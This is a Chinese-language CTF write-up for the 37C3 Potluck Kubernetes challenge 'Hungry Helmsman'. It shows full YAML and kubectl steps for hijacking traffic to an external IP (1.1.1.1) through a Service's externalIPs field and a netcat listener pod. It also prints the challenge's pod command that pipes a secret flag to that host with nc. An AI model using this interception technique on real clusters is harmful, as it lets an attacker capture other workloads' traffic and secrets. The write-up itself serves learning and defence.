


文章转载自：[37C3 Potluck CTF Hungry Helmsman writeup - 在酒吧喝牛奶的牛仔|微信公众号](https://mp.weixin.qq.com/s/81MBJxulmuQri8NPXEH0UA) 

> Welcome, chefs of the Kubernetes kitchen! The hungry Helmsman is on the lookout for a unique feast, and his palate is set on flags. Embark on the "Hungry Helmsman" challenge, where Kubernetes prowess meets culinary finesse. Craft the ultimate deployment to reveal the flag!          
>         
> Author:          
> p4ck3t0, diff-fusion          
>          
> REMOTE INFO:          
> nc challenge10.play.potluckctf.com 8888

本题难度并不是很高，如果你对相关概念比较了解的情况下很快就能做出来。在 professor 的指导下边学习边思考的过程也是比较有意思的。

---

## 0x01 环境信息  
我们先瞅瞅有什么 ns，然后记录一下方便后面查看资源的时候复制粘贴。很明显 flag-reciever 和flag-sender 是我们比较关注的。

```shell
➤ kubectl --kubeconfig kubeconfig get ns
NAME              STATUS   AGE
default           Active   3m19s
flag-reciever     Active   3m15s
flag-sender       Active   3m15s
kube-node-lease   Active   3m19s
kube-public       Active   3m19s
kube-system       Active   3m19s
先简单看看 RBAC，default 下面没啥特别的权限，就不贴全了。
```

先简单看看 RBAC，default 下面没啥特别的权限，就不贴全了。

```shell
➤ kubectl --kubeconfig kubeconfig auth can-i --list
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
bindings                                        []                                     
....
```

主要的权限在 `flag-reciever` ns 下面，sender 也是没啥权限。

```shell
➤ kubectl --kubeconfig kubeconfig auth can-i --list -n flag-reciever
Resources                                       Non-Resource URLs                      Resource Names   Verbs
pods.*                                          []                                     []               [create delete]
services.*                                      []                                     []               [create delete]
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
bindings                                        []                                     []               [get list watch]
configmaps                                      []                                     []               [get list watch]
......
```

我们主要到多了两个比较重要的权限。

+ pods.*  [create delete]
+ services.* [create delete]

有一个显眼的pod `flag-sender-676776d678-gvqdz` 。

```shell
➤ kubectl --kubeconfig kubeconfig get pods -A
NAMESPACE     NAME                                                                                READY   STATUS    RESTARTS   AGE
flag-sender   flag-sender-676776d678-gvqdz                                                        1/1     Running   0          6m43s
kube-system   calico-kube-controllers-7ddc4f45bc-n78vl                                            1/1     Running   0          6m43s
kube-system   calico-node-fw7mb                                                                   1/1     Running   0          6m36s
kube-system   calico-node-tzbxq                                                                   1/1     Running   0          6m43s
kube-system   coredns-5dd5756b68-dx9c7                                                            1/1     Running   0          6m43s
kube-system   coredns-5dd5756b68-kn6kj                                                            1/1     Running   0          6m43s
kube-system   etcd-flux-cluster-7555ba3d6a2a4a0bad267e0b9c33c8c2-lhbwj-s6v2f                      1/1     Running   0          6m50s
kube-system   kube-apiserver-flux-cluster-7555ba3d6a2a4a0bad267e0b9c33c8c2-lhbwj-s6v2f            1/1     Running   0          6m50s
kube-system   kube-controller-manager-flux-cluster-7555ba3d6a2a4a0bad267e0b9c33c8c2-lhbwj-s6v2f   1/1     Running   0          6m50s
kube-system   kube-proxy-4pzbm                                                                    1/1     Running   0          6m36s
kube-system   kube-proxy-zzn52                                                                    1/1     Running   0          6m43s
kube-system   kube-scheduler-flux-cluster-7555ba3d6a2a4a0bad267e0b9c33c8c2-lhbwj-s6v2f            1/1     Running   0          6m50s
```

仔细看一下

```yaml
➤ kubectl --kubeconfig kubeconfig -n flag-sender get pod flag-sender-676776d678-gvqdz -o yaml          
         
apiVersion: v1          
kind: Pod          
metadata:          
  annotations:          
    cni.projectcalico.org/containerID: b2b1974a943dfd0543fb0324afe2f68636c816fba86ae3231c01f6ff8c57f825          
    cni.projectcalico.org/podIP: 192.168.11.129/32          
    cni.projectcalico.org/podIPs: 192.168.11.129/32          
  creationTimestamp: "2023-12-30T04:39:44Z"          
  generateName: flag-sender-676776d678-          
  labels:          
    app: flag-sender          
    pod-template-hash: 676776d678          
  name: flag-sender-676776d678-gvqdz          
  namespace: flag-sender          
  ownerReferences:          
  - apiVersion: apps/v1          
    blockOwnerDeletion: true          
    controller: true          
    kind: ReplicaSet          
    name: flag-sender-676776d678          
    uid: 293678f8-6b9d-4768-bece-da16ce3925ac          
  resourceVersion: "695"          
  uid: d3805db6-1ebb-4339-9cb3-9f27cec0c7b7          
spec:          
  containers:          
  - args:          
    - -c          
    - while true; do echo $FLAG | nc 1.1.1.1 80 || continue; echo 'Flag Send'; sleep          
      10; done          
    command:          
    - sh          
    env:          
    - name: FLAG          
      valueFrom:          
        secretKeyRef:          
          key: flag          
          name: flag          
    image: busybox          
    imagePullPolicy: IfNotPresent          
    name: container          
    resources: {}          
    terminationMessagePath: /dev/termination-log          
    terminationMessagePolicy: File          
    volumeMounts:          
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount          
      name: kube-api-access-r7pkx          
      readOnly: true          
  dnsPolicy: ClusterFirst          
  enableServiceLinks: true          
  nodeName: flux-cluster-7555ba3d6a2a4a0bad267e0b9c33c8c2-md-0-zrxl6-t7fdk7          
  preemptionPolicy: PreemptLowerPriority          
  priority: 0          
  restartPolicy: Always          
  schedulerName: default-scheduler          
  securityContext: {}          
  serviceAccount: default          
  serviceAccountName: default          
  terminationGracePeriodSeconds: 30          
  tolerations:          
  - effect: NoExecute          
    key: node.kubernetes.io/not-ready          
    operator: Exists          
    tolerationSeconds: 300          
  - effect: NoExecute          
    key: node.kubernetes.io/unreachable          
    operator: Exists          
    tolerationSeconds: 300          
  volumes:          
  - name: kube-api-access-r7pkx          
    projected:          
      defaultMode: 420          
      sources:          
      - serviceAccountToken:          
          expirationSeconds: 3607          
          path: token          
      - configMap:          
          items:          
          - key: ca.crt          
            path: ca.crt          
          name: kube-root-ca.crt          
      - downwardAPI:          
          items:          
          - fieldRef:          
              apiVersion: v1          
              fieldPath: metadata.namespace          
            path: namespace          
status:          
  conditions:          
  - lastProbeTime: null          
    lastTransitionTime: "2023-12-30T04:39:56Z"          
    status: "True"          
    type: Initialized          
  - lastProbeTime: null          
    lastTransitionTime: "2023-12-30T04:40:10Z"          
    status: "True"          
    type: Ready          
  - lastProbeTime: null          
    lastTransitionTime: "2023-12-30T04:40:10Z"          
    status: "True"          
    type: ContainersReady          
  - lastProbeTime: null          
    lastTransitionTime: "2023-12-30T04:39:56Z"          
    status: "True"          
    type: PodScheduled          
  containerStatuses:          
  - containerID: containerd://71beab835e77a195155d78ab1bc20d379b175f1a133797e06ac5fbbdb6799783          
    image: docker.io/library/busybox:latest          
    imageID: docker.io/library/busybox@sha256:ba76950ac9eaa407512c9d859cea48114eeff8a6f12ebaa5d32ce79d4a017dd8          
    lastState: {}          
    name: container          
    ready: true          
    restartCount: 0          
    started: true          
    state:          
      running:          
        startedAt: "2023-12-30T04:40:09Z"          
  hostIP: 172.18.0.60          
  phase: Running          
  podIP: 192.168.11.129          
  podIPs:          
  - ip: 192.168.11.129          
  qosClass: BestEffort          
  startTime: "2023-12-30T04:39:56Z"  
```

我们只要看一下 busybox 执行了什么

```yaml
containers:          
  - args:          
    - -c          
    - while true; do echo $FLAG | nc 1.1.1.1 80 || continue; echo 'Flag Send'; sleep          
      10; done          
    command:          
    - sh          
    env:          
    - name: FLAG          
      valueFrom:          
        secretKeyRef:          
          key: flag          
          name: flag
```

很简单，他echo了 env 中的 FLAG，从secrets 资源里面获取。并且通过管道传递给了 1.1.1.1 80 端口。

```shell
➤ kubectl --kubeconfig kubeconfig -n flag-sender logs flag-sender-676776d678-gvqdz
HTTP/1.1 400 Bad Request
Server: cloudflare
Content-Type: text/html
Content-Length: 155
Connection: close
CF-RAY: -

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>cloudflare</center>
</body>
</html>
Flag Send

.....
```

## 0x02 目的

那么目前题目传递的意思已经比较明确了，我们需要想办法截获发往 1.1.1.1 80 端口的 flag。但很明显这不是让你把 1.1.1.1 给*了。

简单的尝试
```shell
➤ kubectl --kubeconfig kubeconfig -n flag-sender exec -it flag-sender-676776d678-gvqdz -- env

Error from server (Forbidden): pods "flag-sender-676776d678-gvqdz" is forbidden: User "system:serviceaccount:default:ctf-player" cannot create resource "pods/exec" in API group "" in the namespace "flag-sender"
```

分析一下：
+ 目前手上的权限不足以操控这个 flag-sender-676776d678-gvqdz
+ 没有操作Node 的权限
+ 能创建的资源有限

那么还得从题目给定的资源入手，所以我们需要把目光转向 service，但没有特定的 service 给我们。

```shell
➤ kubectl --kubeconfig kubeconfig   get svc -A
NAMESPACE     NAME         TYPE        CLUSTER-IP    EXTERNAL-IP   PORT(S)                  AGE
default       kubernetes   ClusterIP   10.128.0.1    <none>        443/TCP                  23m
kube-system   kube-dns     ClusterIP   10.128.0.10   <none>        53/UDP,53/TCP,9153/TCP   23m
```

并且 `flag-reciever` ns 下也设置了 `networkpolicy`, 限定了 ns 为 `flag-sender` 和 有 label 为 `app: flag-sender` 的入方向ingress。

```yaml
➤ kubectl --kubeconfig kubeconfig -n flag-reciever get networkpolicies flag-reciever -o yaml          
apiVersion: networking.k8s.io/v1          
kind: NetworkPolicy          
metadata:          
  creationTimestamp: "2023-12-30T04:39:32Z"          
  generation: 1          
  name: flag-reciever          
  namespace: flag-reciever          
  resourceVersion: "223"          
  uid: b8ca8419-29c5-4dad-829a-7fadb85a6f12          
spec:          
  ingress:          
  - from:          
    - namespaceSelector:          
        matchLabels:          
          ns: flag-sender          
      podSelector:          
        matchLabels:          
          app: flag-sender          
  podSelector: {}          
  policyTypes:          
  - Ingress          
  - Egress  
```

第一个想法 - ClusterIP   

我们先创建一个 `busybox` pod，然后监听个端口，然后创建service通过 `ClusterIP` 直接设定固定IP 来操作。想法不错，但这里面其实存在一个坑点。

随便创建一个 pod 先试试。
```shell
➤ kubectl --kubeconfig kubeconfig -n flag-reciever run nginx --image=nginx          
         
Error from server (Forbidden): pods "nginx" is forbidden: violates PodSecurity "restricted:latest": allowPrivilegeEscalation != false (container "nginx" must set securityContext.allowPrivilegeEscalation=false), unrestricted capabilities (container "nginx" must set securityContext.capabilities.drop=["ALL"]), runAsNonRoot != true (pod or container "nginx" must set securityContext.runAsNonRoot=true), seccompProfile (pod or container "nginx" must set securityContext.seccompProfile.type to "RuntimeDefault" or "Localhost") 
```

一大堆报错，简单来说就是需要设置securityContext 和 cap 的限制，包括 runasuser。这种情况非常常见，在实战中不少大规模集群也会有这种securityContext和 resources limits 的限制，想起之前的一次持久化自动化创建 pod，就需要考虑到这一点。

使用 dry-run 先来个 template，然后根据题目的报错要求进一步修改，最后的完整 yaml 如下。

busybox-exp.yaml
```yaml
apiVersion: v1          
kind: Pod          
metadata:          
  creationTimestamp: null          
  labels:          
    run: busyboxtest          
  name: busyboxtest          
  namespace: flag-reciever          
spec:          
  securityContext:          
    runAsNonRoot: true          
    runAsUser: 1000          
    seccompProfile:          
      type: RuntimeDefault          
  containers:          
  - image: busybox          
    name: busyboxtest          
    args: [/bin/sh, -c, 'nc -lp 8080']          
    ports:          
      - containerPort: 8080          
        name: http-web-svc          
    securityContext:          
        allowPrivilegeEscalation: false          
        capabilities:          
          drop:          
            - ALL          
    resources:          
        limits:          
          cpu: "100m"          
          memory: "0Mi"          
        requests:          
          cpu: "100m"          
          memory: "0Mi"          
  dnsPolicy: ClusterFirst          
  restartPolicy: Always          
status: {}
```

service.yaml
```yaml
apiVersion: v1          
kind: Service          
metadata:          
  name: my-custom-service          
spec:          
  type: ClusterIP          
  clusterIP: 1.1.1.1           
  ports:          
    - port: 80          
      targetPort: 8080          
  selector:          
    run: busyboxtest
```

```shell
➤ kubectl --kubeconfig kubeconfig -n flag-reciever apply -f service-test.yaml          
         
The Service "my-custom-service" is invalid: spec.clusterIPs: Invalid value: []string{"1.1.1.1"}: failed to allocate IP 1.1.1.1: the provided IP (1.1.1.1) is not in the valid range. The range of valid IPs is 10.128.0.0/12          
```

很好，问题出现，不在合法范围的 ip。

> the provided IP (1.1.1.1) is not in the valid range. The range of valid IPs is 10.128.0.0/12

## 0x03 externalIPs  
既然 clusterip 不行那么这个时候就得去查资料了， `kubectl explain` 大法不能忘记。我感觉这应该比直接看官方来的更快，因为可以直接告诉我可用选项有哪些。



```shell
externalIPs is a list of IP addresses for which nodes in the cluster will          
    also accept traffic for this service.  These IPs are not managed by          
    Kubernetes.  The user is responsible for ensuring that traffic arrives at a          
    node with this IP.  A common example is external load-balancers that are not          
    part of the Kubernetes system.
```

很好，externalIPs 目测是满足要求的。

1. clusterIP:
+ 这是 Service 的内部集群 IP,只能在集群内部访问
+ 由 Kubernetes 自动在内部 IP 池中分配
+ 可以通过代理、重定向访问后端 Pod

2.externalIPs:
+ 这是 Service 暴露出来提供外部访问的 IP 列表
+ 需要是可路由的实际 IP 地址
+ 可以从集群外直接访问这个 IP,到达 Service
+ 如果type 为Loadbalancer，在有 LB插件的情况下，也能获取到ExternalIP，否则不会由 Kubernetes 自动分配,需要手动指定
+ 可以允许同一个 Service 通过内外部 IP 访问


我们知道 k8s网络中默认情况下，基本是靠 iptables 规则和 kube-proxy操作的。如果从 Pod 内，流量的走向来看应该是。

> Pod -> iptables NAT 规则 -> kube-proxy 的负载均衡 -> Backend Pod

本地看看，我们创建 service clusterip 的时候 会创建对应iptables 规则，我们看到创建 externalIP 也一样创建了类似的 iptables。



那就直接试试。

```yaml
apiVersion: v1          
kind: Service          
metadata:          
  name: my-custom-service          
  namespace: flag-reciever          
spec:          
  externalIPs:          
  - 1.1.1.1          
  ports:          
    - port: 80          
      targetPort: 8080          
  selector:          
    run: busyboxtest
```

```shell
➤ kubectl --kubeconfig kubeconfig apply -f service-test.yaml
service/my-custom-service created
```

挺好，成功创建，IP 也没啥问题。

```shell
➤ kubectl --kubeconfig kubeconfig get svc -A
NAMESPACE       NAME                TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
default         kubernetes          ClusterIP   10.128.0.1     <none>        443/TCP                  42m
flag-reciever   my-custom-service   ClusterIP   10.137.18.10   1.1.1.1       8080/TCP                 21s
kube-system     kube-dns            ClusterIP   10.128.0.10    <none>        53/UDP,53/TCP,9153/TCP   42m
```

成功 Getflag。

```shell
➤ kubectl --kubeconfig kubeconfig logs busyboxtest -n flag-reciever
potluck{****}
```